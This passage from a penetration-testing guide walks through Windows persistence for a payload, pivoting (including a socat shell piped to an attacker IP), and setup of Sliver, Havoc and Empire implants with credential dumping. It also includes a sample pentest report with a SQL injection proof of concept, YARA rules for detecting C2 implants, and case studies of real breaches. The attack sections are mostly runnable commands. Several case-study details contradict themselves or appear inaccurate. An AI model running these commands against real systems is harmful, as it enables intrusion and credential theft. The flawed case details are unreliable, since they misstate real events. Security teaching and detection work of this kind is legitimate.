reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v Update /t REG_SZ /d "C:\Users\Public\payload.exe"

# Windows Scheduled Task
schtasks /create /tn "SystemUpdate" /tr "C:\Users\Public\payload.exe" /sc hourly /ru SYSTEM

# Windows Startup folder
copy payload.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\payload.exe"

# WMI Event Subscription (stealthy)
powershell -Command "
Register-WmiEvent -Query \"SELECT * FROM __InstanceCreationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_LogonSession'\" -Action {
    Invoke-WmiMethod -Path (New-Object System.Management.ManagementPath('Win32_Process')) -Name Create -ArgumentList 'C:\Users\Public\payload.exe'
}"
```

---

### 4.7 Phase 6: Pivoting and Tunneling


**SSH Tunneling:**

```bash
# Local port forwarding (access internal service via SSH)
ssh -L 8080:internal-web.acme.com:80 user@pivot-host.acme.com
# Now http://localhost:8080 goes to internal-web:80 via pivot

# Remote port forwarding (expose internal service externally)
ssh -R 9999:localhost:3389 user@external-server.acme.com
# Now external-server:9999 → localhost:3389 (RDP)

# Dynamic SOCKS proxy
ssh -D 1080 user@pivot-host.acme.com
# Configure tools to use SOCKS5 proxy at localhost:1080
# All traffic routes through pivot host
```

**Chisel (Fast TCP Tunneling):**

```bash
# Server (Kali - attacker)
chisel server -p 8000 --reverse

# Client (compromised host - internal)
chisel client 10.10.10.5:8000 R:1080:socks

# Now use SOCKS5 proxy on Kali at localhost:1080
# All traffic goes through the compromised host's network

# Port forwarding via chisel
chisel client 10.10.10.5:8000 R:3389:10.10.10.100:3389
# Kali localhost:3389 → chisel → compromised host → internal 10.10.10.100:3389
```

**Socat:**

```bash
# Port forwarding
socat TCP-LISTEN:4444,fork TCP:10.10.10.100:3389

# Relay traffic through a dual-homed host
socat TCP-LISTEN:8080,fork TCP:10.10.20.50:80

# Bind shell relay
socat TCP:10.10.10.5:4444 EXEC:/bin/sh
```

**Meterpreter Routing:**

```bash
meterpreter > run autoroute -s 10.10.20.0/24
# [*] Adding a route to 10.10.20.0/24...
# [+] Added route to 10.10.20.0/24 via 10.10.10.10

meterpreter > run autoroute -p
# Active Routing Table
# ====================
#    Subnet           Netmask          Gateway
#    ------           -------          -------
#    10.10.20.0       255.255.255.0    Session 1

# Now we can scan the internal network through the pivot
msf6 auxiliary/scanner/portscan/tcp
> set RHOSTS 10.10.20.50
> set PORTS 80,443,3389,445
> run

# [*] 10.10.20.50:80 - TCP OPEN
# [*] 10.10.20.50:445 - TCP OPEN
```

**Ligolo-ng (Advanced Tunneling):**

```bash
# On attacker machine
sudo ip tuntap add mode tun ligolo
sudo ip link set dev ligolo mtu 1500
sudo ip addr add 240.0.0.1/32 dev ligolo
sudo ip link set dev ligolo up

# Start ligolo proxy
ligolo-proxy -self-cert -laddr 0.0.0.0:7000

# On compromised target
ligolo-agent -connect 10.10.10.5:7000 -ignore-cert

# Back on attacker (ligolo proxy session)
ligolo-proxy > session
# (Interactive session selection)
ligolo-proxy > ifconfig
# (Shows target network interfaces)
ligolo-proxy > start
# Tunnel active, we can reach target's internal networks
```

---

### 4.8 Phase 7: C2 Frameworks


**Cobalt Strike Overview:**

Cobalt Strike operates with a team server (Linux) and clients (Windows/Linux). The flow:

```
┌──────────────┐       ┌──────────────┐       ┌──────────────┐
│ Victim       │──────→│ Redirector   │──────→│ Team Server   │
│ (Beacon)     │ HTTPS │ (Nginx)      │ HTTPS │ (C2)          │
└──────────────┘       └──────────────┘       └──────┬───────┘
                                                      │
                                             ┌────────┴────────┐
                                             │  Cobalt Strike  │
                                             │  Client (GUI)   │
                                             └─────────────────┘
```

Key features:
- **Beacon:** HTTP/HTTPS/DNS/SMB payload
- **Malleable C2:** Customizable traffic profiles
- **Aggressor Script:** Automation in Sleep language
- **Lateral Movement:** psexec, winrm, wmi, ssh
- **SOCKS Proxy:** Route traffic through beacon
- **Pivoting:** Port scanning, service enumeration
- **Data Staging:** Host files for download (exfil)
- **Reporting:** Activity report, IOC extraction

**Sliver C2 Setup:**

```bash
# Install Sliver
curl https://sliver.sh/install | sudo bash
# Or build from source
git clone https://github.com/BishopFox/sliver.git
cd sliver
make

# Start server
sliver-server

# In Sliver server console:
sliver-server > operators
sliver-server > new-operator --name pentester --lhost 10.10.10.5
# [+] Saved new operator config to: /root/.sliver-client/configs/pentester_10.10.10.5.cfg

# Connect client
sliver-client import /root/.sliver-client/configs/pentester_10.10.10.5.cfg
sliver-client

# HTTP listener
sliver > http --domain acme.com -L 10.10.10.5 -l 443

# Generate implant
sliver > generate --http acme.com --os windows --arch amd64 --name win-update
# [*] Generating implant, please wait...
# [*] Implant saved to: /root/sliver/win-update.exe

sliver > generate --mtls c2.acme.com --os linux --arch amd64 --name linux-agent
# [*] Implant saved to: /root/sliver/linux-agent

# List active sessions
sliver > sessions

# Interact with session
sliver > use 1a2b3c4d5e

# Post-exploitation commands
sliver (win-update) > info
sliver (win-update) > shell
sliver (win-update) > ls C:\Users\Administrator\
sliver (win-update) > ps
sliver (win-update) > execute-assembly /root/tools/Seatbelt.exe
sliver (win-update) > sideload /root/tools/Rubeus.exe
sliver (win-update) > migrate 1234
sliver (win-update) > socks5 start

# Set up pivot listeners
sliver (win-update) > pivots tcp --bind 0.0.0.0:8443
```

**Havoc C2 Setup:**

```bash
# Clone and build
git clone https://github.com/HavocFramework/Havoc.git
cd Havoc
make

# Configure teamserver
cat > teamserver.yaml << 'EOF'
Teamserver:
  Host: 0.0.0.0
  Port: 40056
  Authentication:
    Username: admin
    Password: changeme
  Database:
    Type: SQLite
    Path: ./data/havoc.db
EOF

# Start teamserver
./havoc server --profile ./teamserver.yaml

# In another terminal, start client
# Havoc client is a Qt app
# configure listener via GUI

# Demon implant commands:
# sleep <seconds>
# sleep 30
# load <extension.dll>
# inject <pid>
# socks 1080
# screenshot
# keylog
# hashdump
# netstat
```

**Empire:**
```bash
# Install
git clone https://github.com/BC-SECURITY/Empire.git
cd Empire
sudo ./setup/install.sh

# Start
sudo empire

# In Empire console:
(Empire) > listeners

# HTTP listener
(Empire) > uselistener http
(Empire: listeners/http) > set Host http://10.10.10.5:8080
(Empire: listeners/http) > set Port 8080
(Empire: listeners/http) > execute

# Generate launcher
(Empire) > usestager windows/launcher_bat
(Empire: stager/windows/launcher_bat) > set Listener http
(Empire: stager/windows/launcher_bat) > execute
# Launcher bat file generated. Execute on target.

# When agent calls back:
(Empire) > agents
(Empire) > interact ABC123

# Modules
(Empire: ABC123) > usemodule powershell/credentials/mimikatz/logonpasswords
(Empire: ABC123) > execute
```

---

### 4.9 Phase 8: Reporting


**Full Report Template:**

```markdown
# PENETRATION TEST REPORT
# Acme Corporation
# Assessment Date: October 15 - November 15, 2024
# Classification: CONFIDENTIAL

---

## 1. Executive Summary

### Background

Acme Corporation engaged SecurePentest LLC to perform an external penetration test
of their production infrastructure to validate security controls and identify
exploitable vulnerabilities.

### Scope

- External: *.acme.com, 203.0.113.0/24
- Internal: 10.0.0.0/8
- Web Applications: app.acme.com, api.acme.com, admin.acme.com

### Overall Risk Rating: HIGH


### Key Findings Summary

| Severity | Count |
|----------|-------|
| Critical | 3     |
| High     | 7     |
| Medium   | 12    |
| Low      | 18    |
| Informational | 9 |
| **Total** | **49** |

### Critical Findings

1. SQL Injection in /api/users endpoint (CVSS 9.8)
   - Unauthenticated attacker can dump entire user database
2. Domain Admin compromise via Pass-the-Hash (CVSS 9.1)
   - Complete Active Directory domain compromise achieved
3. Default credentials on Jenkins (CVSS 9.0)
   - RCE as SYSTEM via Jenkins script console

### Compromise Narrative

The assessment team achieved the following within the 4-week testing window:
- Day 1: Reconnaissance identified 127 subdomains, 14 live hosts
- Day 2: SQL injection found in API (Critical #1) → dumps 50K user records
- Day 3: Extracted NTLM hashes from SQL Server (xp_cmdshell → secretsdump)
- Day 4: Cracked service account → lateral movement to 3 servers
- Day 5: Domain admin privileges obtained (Critical #2)
- Day 6-10: Full AD compromise, 500GB data access, persistence established

### Strategic Recommendations

1. Implement Web Application Firewall (WAF) with SQLi rules
2. Enable multi-factor authentication (MFA) for all external services
3. Implement tiered administrative model (Tier 0/1/2)
4. Deploy endpoint detection and response (EDR) across all servers
5. Conduct quarterly vulnerability scans with remediation tracking
6. Implement network segmentation between application tiers

---

## 2. Detailed Findings

### Finding CRIT-001: SQL Injection in /api/users


**Risk Rating:** Critical
**CVSS Score:** 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

**Description:**
The /api/users endpoint concatenates user input directly into SQL queries
without parameterization. An unauthenticated attacker can inject SQL commands
to extract, modify, or delete database contents.

**Affected Endpoint:**
GET https://api.acme.com/api/users?id=1

**Proof of Concept:**
```
Request:
GET https://api.acme.com/api/users?id=1' UNION SELECT @@version,user(),database()-- -

Response:
{"version":"8.0.32","user":"root@localhost","database":"acme_db"}
```

**Impact:**
- Full database compromise (50k+ user records including PII)
- Server compromise via xp_cmdshell (SQL Server) or INTO OUTFILE (MySQL)
- Potential pivot to internal network

**Remediation:**
1. Replace string concatenation with parameterized queries
2. Implement prepared statements in all database interactions
3. Apply principle of least privilege to database account
4. Implement input validation for all API parameters

---

### Finding CRIT-002: Domain Admin Compromise


**Risk Rating:** Critical
**CVSS Score:** 9.1 (CVSS:3.1/AV:L/AC:L/PR:H/UI:R/S:C/C:H/I:H/A:H)

**Description:**
After compromising a domain-joined SQL server, the team extracted NTLM hashes
from LSASS and used pass-the-hash to authenticate as Domain Administrator.

**Attack Chain:**
```
SQL Server (MSSQL Service)
  → xp_cmdshell → OS command execution
  → impacket-secretsdump → NTLM hash extraction
  → CrackMapExec → Pass-the-Hash against Domain Controller
  → Domain Admin access achieved
```

**Impact:**
- Complete Active Directory domain compromise
- Ability to reset any user password, modify group memberships
- Golden Ticket creation for persistent access

**Remediation:**
1. Enable Windows Defender Credential Guard
2. Disable xp_cmdshell on SQL Server instances
3. Implement LAPS for local administrator password management
4. Deploy EDR with LSASS protection enabled

---

## 3. Tool Outputs

### Nmap Scan Results

```
Nmap scan report for mail.acme.com (203.0.113.10)
Host is up (0.045s latency).

PORT     STATE    SERVICE    VERSION
22/tcp   open     ssh        OpenSSH 8.9p1 Ubuntu 3ubuntu0.4
25/tcp   open     smtp       Postfix smtpd
80/tcp   open     http       Apache httpd 2.4.54
443/tcp  open     ssl/http   Apache httpd 2.4.54
110/tcp  open     pop3       Dovecot pop3d
143/tcp  open     imap       Dovecot imapd
993/tcp  open     ssl/imap   Dovecot imapd
3306/tcp filtered mysql
8080/tcp open     http-proxy Squid http proxy 5.7

Service detection performed. Please report any incorrect results.
```

### Cracked Password Hashes

```
User: Administrator (Domain Admin)
Hash: fc525c9683e8fe067095ba2ddc971889
Password: P@ssw0rd2024! (via rockyou.txt + rules)
Time to Crack: 3 minutes 42 seconds

User: sql_svc (Service Account)
Hash: e19ccf75ee54e06b06a5907af13cef42
Password: Spring2023! (in password spray list)
Time to Crack: Immediate (password spray hit)
```

---

## Appendix A: Risk Ratings Legend

| Rating | Score | Definition |
|--------|-------|------------|
| Critical | 9.0-10.0 | Immediate exploitation likely. Direct access to sensitive data or systems. |
| High | 7.0-8.9 | Exploitation possible. Significant data exposure or system access. |
| Medium | 4.0-6.9 | Exploitation requires conditions. Limited data exposure. |
| Low | 0.1-3.9 | Exploitation theoretical or requires extensive conditions. |
| Informational | N/A | General security observations without direct risk. |

## Appendix B: Methodology

This assessment followed the Penetration Testing Execution Standard (PTES) and
OWASP Testing Guide v4.2. The testing methodology included:
- Passive and active reconnaissance
- Automated vulnerability scanning (Nessus, Nuclei)
- Manual exploitation and verification
- Privilege escalation testing
- Lateral movement assessment
- Password analysis and credential testing

## Appendix C: Remediation Priority Matrix

| Priority | Timeline | Definition |
|----------|----------|------------|
| Immediate | Within 24 hours | Active exploitation risk. Close attack vector immediately. |
| Short-term | Within 1 week | High risk findings with known exploitation methods. |
| Medium-term | Within 1 month | Medium risk findings requiring planning. |
| Long-term | Within 3 months | Low risk findings. Implement as part of regular hardening. |

## Appendix D: Tools Used

- Nmap 7.94 (network scanning)
- Burp Suite Professional 2024.10 (web testing)
- Metasploit Framework 6.4 (exploitation)
- CrackMapExec 6.0 (windows lateral movement)
- Impacket v0.12 (AD tooling)
- Hashcat 6.2.6 (password cracking)
- Nuclei 3.2 (vulnerability scanning)
- Gobuster 3.6 (directory enumeration)
- Netcat 1.226 (bind/reverse shells)
- Dradis 4.12 (reporting)
```

---

### 4.10 Custom YARA Rule for C2 Detection


```yara
/*
Custom YARA rule to detect common C2 frameworks
Can be deployed on EDR, custom scanners, or file integrity monitoring
*/
rule CobaltStrike_Beacon_HTTPS {
    meta:
        description = "Detects Cobalt Strike HTTPS beacon artifacts"
        author = "Pentest Team"
        date = "2024-10-15"
        reference = "Internal threat intelligence"
        hash = "https://github.com/offensive-security/cobaltstrike-artifacts"
    strings:
        // Cobalt Strike default pipe names
        $pipe1 = "\msagent_" ascii wide
        $pipe2 = "\moses_" ascii wide
        $pipe3 = "\postex_" ascii wide
        $pipe4 = "\status_" ascii wide
        
        // Cobalt Strike default named pipes
        $np1 = "\\.\pipe\msagent_" ascii wide
        $np2 = "\\.\pipe\moses_" ascii wide
        
        // Cobalt Strike specific strings
        $cs_ref1 = "MSSE-" wide
        $cs_ref2 = "ReflectiveLoader" ascii
        $cs_ref3 = "This program cannot be run in DOS mode" wide
        
        // Malleable C2 default headers
        $header1 = "Cookie: __cfduid=" ascii
        $header2 = "Cookie: PHPSESSID=" ascii
        
    condition:
        any of ($pipe*) or 2 of ($np*) or
        ($cs_ref2 and $cs_ref3 and filesize < 500KB)
}

rule Sliver_Implant_Detection {
    meta:
        description = "Detects Sliver C2 implant characteristics"
        author = "Pentest Team"
        date = "2024-10-15"
    strings:
        // Sliver specific strings
        $sl1 = "sliver" ascii wide nocase
        $sl2 = "beacon" ascii wide nocase
        $sl3 = "implant_name" ascii
        $sl4 = "mtls" ascii
        $sl5 = "http-c2" ascii
        
        // Sliver configuration strings
        $cfg1 = "reconnect_interval" ascii
        $cfg2 = "max_errors" ascii
        $cfg3 = "keys_exchange_interval" ascii
        
        // Sliver specific function names
        $func1 = "CreateBeacon" ascii
        $func2 = "ExecuteAssembly" ascii
        $func3 = "SideloadAssembly" ascii
        
    condition:
        (3 of ($sl*) and filesize < 2MB) or
        ($cfg1 and $cfg2) or
        ($func1 and $func2)
}

rule Havoc_Demon_Implant {
    meta:
        description = "Detects Havoc C2 Demon implant"
        author = "Pentest Team"
        date = "2024-10-15"
    strings:
        // Havoc Demon specific
        $havoc1 = "Demon" ascii wide
        $havoc2 = "Havoc" ascii wide nocase
        $havoc3 = "SleepObf" ascii
        $havoc4 = "IndirectSyscall" ascii
        $havoc5 = "StackDuplic" ascii
        
        // Havoc configuration
        $hcfg1 = "killdate" ascii
        $hcfg2 = "working_dir" ascii
        $hcfg3 = "injected_cmd" ascii
        
        // Havoc encryption artifacts
        $enc1 = "aes_256_cbc" ascii
        $enc2 = "chacha20" ascii
        
    condition:
        (2 of ($havoc*) and 2 of ($hcfg*)) or
        (3 of ($havoc*) and filesize < 1MB)
}

rule Empire_Agent_PowerShell {
    meta:
        description = "Detects Empire PowerShell agent artifacts"
        author = "Pentest Team"
        date = "2024-10-15"
    strings:
        // Empire Agent strings
        $emp1 = "$agent_id" ascii
        $emp2 = "$agent_name" ascii
        $emp3 = "$working_key" ascii
        $emp4 = "$encryption_key" ascii
        $emp5 = "Invoke-Empire" ascii
        
        // Empire communication
        $comm1 = "/admin/get.php" ascii
        $comm2 = "/admin/login/process.php" ascii
        $comm3 = "/news.php" ascii
        
        // Empire tasking
        $task1 = "SYSTEM_STARTUP" ascii
        $task2 = "TASK_CMD_WAIT" ascii
        $task3 = "TASK_SHELL" ascii
        
    condition:
        (2 of ($emp*) and 2 of ($comm*)) or
        (3 of ($emp*)) or
        ($task1 and $task2 and filesize < 100KB)
}
```

## Section 5: Case Studies

### Case Study 1: Carbanak/Fin7 — $1B+ Bank Heist


**Overview:**
Carbanak (also known as FIN7, the Carbanak Group) was a Russian-speaking cybercriminal group that stole over $1 billion from 100+ financial institutions across 40+ countries between 2013-2018. They are one of the most sophisticated financial cybercrime groups ever tracked.

**TTP Breakdown:**

| ATT&CK Tactic | Technique | Implementation |
|--------------|-----------|----------------|
| Initial Access | Spear-phishing | Posed as legitimate banks, sent malicious Excel documents with macros |
| Execution | User Execution | Malicious macro executed PowerShell download cradle |
| Persistence | Registry Run Keys | Cobalt Strike beacon configured for auto-start |
| Defense Evasion | Obfuscated Files | Custom packers, encrypted payloads, process hollowing |
| Credential Access | Credential Dumping | Mimikatz via Cobalt Strike to extract credentials |
| Discovery | System Information Discovery | Internal network reconnaissance, domain controller identification |
| Lateral Movement | Remote Services | CVE-2017-0199, PsExec, WMI |
| Collection | Screen Capture | Timed screenshots of money transfer interfaces |
| Command & Control | Cobalt Strike | HTTPS beacons with domain fronting |
| Exfiltration | Automated Exfiltration | FTP to compromised legitimate servers |
| Impact | Manipulate Financial Transactions | Wire transfer manipulation, SWIFT system abuse |

**Full Attack Chain:**
```
Phase 1: Spear-phishing
├── Email pretending to be from a legitimate partner bank
├── Malicious RTF document with embedded exploit (CVE-2017-0199)
└── Or: Excel document with malicious VBA macro

Phase 2: Initial Foothold
├── Macro executes PowerShell: powershell -NoP -NonI -W Hidden -Exec Bypass -Enc ...
├── Cobalt Strike beacon DLL injected into explorer.exe
└── Callback to C2 over HTTPS (port 443)

Phase 3: Internal Recon
├── BloodHound query: SharpHound.exe collection
├── Domain admin account identified
└── SQL servers, file servers, and domain controllers mapped

Phase 4: Lateral Movement
├── Pass-the-Hash using extracted credentials
├── PsExec to deploy additional beacons
└── Compromise banking application servers

Phase 5: Cash-out
├── Monitor SWIFT/ACH transactions via screen capture
├── Implanted tools modified wire transfer amounts
├── Transactions routed through mule accounts in multiple countries
└── Funds withdrawn before fraud detection triggered

Phase 6: Cleanup
├── Deleted logs covering PowerShell and RDP connections
├── Removed beacon from compromised systems
└── Maintained secondary access through backup implants
```

**Tools Used:**
- Carbanak backdoor (custom malware with plugin architecture)
- Cobalt Strike (post-2016 pivoted heavily)
- Mimikatz
- PsExec
- PowerShell Empire
- Custom network scanning tools

**Detection and Mitigation:**
1. Block macros by default (GPO: "Block macros from running in Office files from the Internet")
2. Enable AMSI and PowerShell Script Block Logging
3. Deploy EDR with behavioral detection (process hollowing, LSASS access)
4. Implement tiered administrative access
5. MFA for all financial transaction approvals
6. User behavior analytics for anomalous financial transactions

**Outcome:**
- Multiple arrests in 2018 (Ukraine, Spain, Germany)
- Indictments by US DOJ (three primary members charged)
- $1B+ stolen across 100+ institutions
- Continues to operate in evolved form (as FIN7/Carbanak)
- Members have been linked to ransomware operations (DarkSide, REvil)

---

### Case Study 2: Marcus Hutchins (MalwareTech) — WannaCry Kill Switch


**Overview:**
Marcus Hutchins, a British security researcher known as MalwareTech, accidentally discovered the kill switch for the WannaCry ransomware on May 12, 2017. This single action stopped the largest ransomware attack in history.

**The WannaCry Attack:**
```
Date: May 12, 2017
Impact: 230,000+ computers across 150 countries
Total Damage: $4B+ estimated
Victims: NHS (UK's National Health Service), FedEx, Deutsche Bahn, Renault, Telefónica
Exploit: EternalBlue (NSA exploit leaked by Shadow Brokers)
Ransom: $300-$600 per computer in Bitcoin
```

**The Sinkhole Discovery:**

Marcus was analyzing WannaCry samples when he noticed the malware checked a specific domain:
```
Domain checked: iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com
```

His analysis (reconstructed):
```python
# WannaCry kill switch analysis
# Marcus noticed the malware queries this domain before executing

import socket
import struct

def check_kill_switch(sample_hash):
    # Disassemble sample -> found this URL hardcoded
    kill_domain = "iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com"
    
    # If domain resolves -> malware exits
    # If domain doesn't resolve -> malware encrypts
    
    try:
        socket.gethostbyname(kill_domain)
        print("Domain resolves -> WILL NOT ENCRYPT")
        return False  # Kill switch active
    except socket.gaierror:
        print("Domain doesn't resolve -> WILL ENCRYPT")
        return True   # Kill switch inactive

# He registered the domain (already registered: iuqerfsodp9ifjaposdfjhgosurijfaewrwergwea.com)
# Pointed it to a sinkhole server
# Every infected machine that checked this domain found it resolving -> refused to encrypt

# Global impact:
# Before registration: 1000s infected per hour
# After registration: infections dropped to near zero
```

**The Aftermath:**

```
Positive:
├── Stopped the world's largest ransomware attack
├── NHS likely saved from catastrophic impact
├── $4B+ in prevented damages
├── Received widespread recognition from security community
└── International acclaim for selfless action

Controversial:
├── Some critics argued sinkholing could be considered unauthorized access
├── Legal questions about intercepting and redirecting malware traffic
└── WHITE HAT ETHICS: Clearly a positive action, legally gray in some jurisdictions
```

**Irony: Marcus's Arrest:**

```
August 2, 2017: Marcus arrested by FBI in Las Vegas (DefCon bound)
Charges: Creating and distributing Kronos banking trojan (2014-2015)
├── Helpful security researcher also had a past
├── Charged: One count of computer fraud, one count of conspiracy
├── Pleaded guilty to two charges
└── Sentenced: Time served + 3 years supervised release

The Lesson:
├── People can change and contribute positively
├── Past actions don't define future contributions
└── The line between Black Hat and White Hat can be blurry
```

---

### Case Study 3: Khalil Shreateh — Facebook Bug Bounty Dispute


**Overview:**
In 2013, Palestinian security researcher Khalil Shreateh discovered a critical vulnerability in Facebook that allowed posting to any user's wall without permission. His attempt to report it led to one of the most famous bug bounty disputes in history.

**Timeline:**

```
July 2013:
├── Khalil finds: Facebook allows posting to any user's wall
├── Reports to Facebook's WhiteHat program via standard form
└── Facebook triage team marks as "Not a bug"

Week 2:
├── Khalil escalates: more detailed report with reproduction steps
├── Facebook triage: "Cannot reproduce"
└── Khalil posts proof on his personal blog

Week 3:
├── Facebook: "Issue already exists internally, duplicate"
├── Khalil: Frustrated, decides to prove severity
└── Posts directly to Mark Zuckerberg's wall from his personal account

Immediate Aftermath:
├── Facebook immediately fixed the bug
├── Disabled Khalil's account (for "unauthorized testing on real users")
├── Facebook initially refused to pay bounty
└── After public backlash, offered $500 (Khalil rejected)

Community Response:
├── Bug bounty community was outraged
├── #StandWithKhalil campaign raised $10K+ via crowdfunding
├── Many argued Facebook's handling was unjust
└── Khalil became a symbol of Gray Hat ethics

Ending:
├── HackerOne hired Khalil as a security engineer
├── Facebook updated their bug bounty policies
├── Bug bounty programs became more transparent about dispute resolution
└── Khalil's case is now taught in security ethics courses
```

**Ethical Analysis:**

| Factor | Pro-Khalil | Anti-Khalil |
|--------|------------|-------------|
| Intention | Good: Wanted to fix a serious bug | Testing on a real user without consent |
| Method | Necessary escalation after dismissal | Violated terms of service |
| Impact | Bug fixed, Facebook more secure | Violated Facebook's authorization |
| Precedent | Shows researchers need escalation path | Could encourage unauthorized testing |
| Outcome | Hired, educated industry | Account banned, no bounty |

**Lesson for Pentesters:**
- Always follow the platform's disclosure process
- Document every attempt to contact vendor
- Never test on real users without explicit permission
- Understand the legal risks of "proving" a vulnerability
- Bug bounty programs have improved dispute resolution significantly since 2013

---

### Case Study 4: Lazarus Group — North Korea's Cyber Army


**Overview:**
Lazarus Group (also known as HIDDEN COBRA) is a North Korean state-sponsored APT group responsible for some of the most destructive cyber attacks in history. They operate under the Reconnaissance General Bureau (RGB), North Korea's primary foreign intelligence agency.

**Major Attacks:**

```
Sony Pictures Hack (2014)
├── Target: Sony Pictures Entertainment
├── Reason: Response to "The Interview" comedy about assassinating Kim Jong-un
├── Method: Spear-phishing → lateral movement → data destruction
├── Data: 100TB stolen, 3,200 PCs destroyed, 2,080 servers wiped
├── Impact: $100M+ in damages, studio operations shut down for weeks
└── Attribution: FBI attributed to North Korea, NSA confirmed

Bangladesh Bank Heist (2016)
├── Target: Bangladesh Bank (central bank) — SWIFT system
├── Method: Compromised SWIFT credentials via keylogger + screen capture
├── Attempted Theft: $951 million
├── Successful: $81 million (rest was blocked by typo in transfer instructions)
├── Money Flow: Bangladesh → Sri Lanka → Philippines → Casinos → North Korea
└── Attribution: UN Security Council confirmed North Korean involvement

WannaCry Ransomware (2017)
├── Target: Global (230K computers in 150 countries)
├── Method: Exploited EternalBlue (NSA exploit) for worm-like propagation
├── Impact: $4B+ in damages
└── Attribution: US, UK, Australia officially attributed to North Korea
```

**Lazarus Tool Arsenal:**

```
Custom Malware:
├── Sora — RAT with video recording capabilities (for SWIFT observation)
├── Destover — Disk-wiping malware (used against Sony)
├── Brambul — SMB worm for lateral movement
├── Joanap — Peer-to-peer botnet
├── Manuscrypt — keylogger and screen capture
└── ThreatNeedle — backdoor with encrypted C2

Exploits Used:
├── EternalBlue (NSA) — SMB RCE
├── DoublePulsar (NSA) — SMB backdoor
├── CVE-2021-42278/CVE-2021-42287 — AD privilege escalation
└── CVE-2019-0708 (BlueKeep) — RDP RCE

C2 Infrastructure:
├── Distributed across 50+ countries
├── Uses legitimate compromised servers as proxies
├── Domain generation algorithms (DGA) for resilience
├── Multiple staging layers (typically 3-4 hops)
└── Cryptocurrency mining as side operation
```

**TTP Analysis:**

```
Phase 1: Reconnaissance
├── Targeted employees via LinkedIn, job boards
├── Spear-phishing with malicious HWP (Hangul Word Processor) files
└── Watering hole attacks on crypto exchange platforms

Phase 2: Initial Access
├── HWP document with embedded exploit
├── Macro downloads and executes trojan
└── Establishes persistent C2 over HTTPS

Phase 3: Credential Access
├── Keyloggers record banking credentials
├── Screen captures of SWIFT transaction approval screens
└── Mimikatz to extract Windows domain credentials

Phase 4: SWIFT Exploitation
├── Installed custom SWIFT monitoring tools
├── Mapped SWIFT Alliance Access workflow
├── Modified transaction amounts and recipients
└── Deleted transaction records after fraudulent transfers

Phase 5: Cryptocurrency Laundering
├── Stolen funds → multiple intermediaries
├── Philippines: casino junket operators (money laundering)
├── Converted to cryptocurrency
└── Bitcoin through mixers → North Korea

Phase 6: Denial and Cover-up
├── Destover wiper: destroyed evidence on compromised systems
├── Suppressed security alerts
└── Ransomware as false flag (WannaCry appeared criminal, not state)
```

**Detection:**
1. Monitor for HWP file execution in non-Korean environments
2. Watch for anomalous SWIFT transaction patterns
3. Deploy network monitoring for Lazarus-specific C2 signatures
4. Enable and monitor Windows Event IDs 4624, 4648, 4672 (logon events)
5. Monitor DNS for known Lazarus DGA domains

**Current Status:**
Still active. Continues to target cryptocurrency exchanges, DeFi platforms, and blockchain companies. Estimated to have stolen over $3B in cryptocurrency since 2020, including $1.7B in 2022 alone.

---

### Case Study 5: Samy Kamkar — MySpace Worm to Security Researcher


**Overview:**
Samy Kamkar created the "Samy worm" in 2005 — the first self-propagating cross-site scripting (XSS) worm. It infected over 1 million MySpace profiles in just 20 hours. He is now a respected security researcher.

**The Samy Worm (2005):**

```javascript
// Simplified version of the Samy worm payload
// The worm used four vectors:
// 1. XSS in MySpace profile page
// 2. AJAX requests to propagate
// 3. CSS to hide itself
// 4. Self-propagation to infect viewers

// The XSS payload placed in the "About Me" section:
<div id=mycode style="display:none">
<script>
// Check if viewer is already infected
if (document.getElementById("mycode") === null) {
    // Payload: Add Samy as friend, then copy to viewer's profile
    var ajax = new XMLHttpRequest();
    var url = "/index.cfm?fuseaction=...";
    ajax.open("POST", url, true);
    ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    ajax.send("interest=...");
    
    // Copy worm code to viewer's profile (propagation)
    // This made the viewer's profile infectious
}
</script>
</div>
```

**Impact:**
```
More than 1 million profiles infected in 20 hours
MySpace forced to shut down for maintenance
FBI investigated Samy Kamkar
```

**Legal Outcome:**
```
Charged as a juvenile (he was 19)
├── Pleaded guilty to felony computer fraud
├── Sentenced: 3 years probation
├── Restitution: Not ordered
└── Community service: 90 days

WHITE HAT TRANSITION:
├── Became a leading security researcher
├── Created: DNS rebinding tool, RFID cloning suite, multiple security tools
├── Works with major companies on vulnerability disclosure
├── Speakers at Black Hat, DefCon
└── Consulted for DHS, major tech companies
```

**What He Says About It:**
> "I didn't think about the consequences. I was just a kid who thought it would be cool to have a million friends on MySpace. Looking back, it was a stupid thing to do, but it also showed me the power of understanding how technology works — and how it can be used against people."

---

### Case Study 6: LAPSUS$ — Teen Cybercrime Syndicate


**Overview:**
LAPSUS$ was a loosely organized group of primarily teenage hackers (ages 16-21) who conducted a series of high-profile attacks in 2021-2022 using social engineering as their primary weapon.

**Victims Timeline:**

```
December 2021: Brazilian Ministry of Health (leaked COVID data)
February 2022: Nvidia (1TB stolen, including source code)
March 2022: Samsung (190GB source code leaked)
March 2022: Okta (customer support system breached)
March 2022: Microsoft (37GB source code, Azure DevOps stolen)
March 2022: Ubisoft (internal systems compromised)
March 2022: Rockstar Games (GTA VI source code and videos)
March 2022: Globant (multiple client data)
```

**Attack Methodology:**

LAPSUS$ didn't use sophisticated malware — their approach was almost pure social engineering:

```
Step 1: Reconnaissance
├── Target employees identified via LinkedIn, Telegram, Discord
├── Personal information gathered (hobbies, job roles, locations)
└── VPN provider accounts researched

Step 2: Credential Harvesting
├── SIM swapping: Social engineer telecom support to port phone number
├── Phone → password reset on target's corporate accounts
├── Alternative: Purchase credentials from info-stealer marketplaces
└── Alternative: Breach employee's personal accounts for password reuse

Step 3: MFA Bypass
├── Call IT help desk: "I lost my phone, need to reset MFA"
├── Provide enough PII (from recon) to pass verification
├── Help desk resets MFA or provides backup codes
└── Pure social engineering, zero technical exploitation

Step 4: Initial Access
├── Log in to VPN with employee credentials
├── Register personal device with MDM/push MFA
├── Access internal tools, GitLab, Jira, Slack
└── Search for "password" in internal wikis/confluence

Step 5: Privilege Escalation
├── Find service account passwords in Confluence/source code
├── Find OAuth tokens in source code repositories
├── Search for AWS/Azure service principals
└── Use admin tools accessible to basic employees

Step 6: Data Exfiltration
├── Download source code from GitLab/GitHub
├── Access AWS S3/Azure Blob storage
├── Use Rclone to transfer data to cloud storage
└── Announce breach on Telegram before companies knew

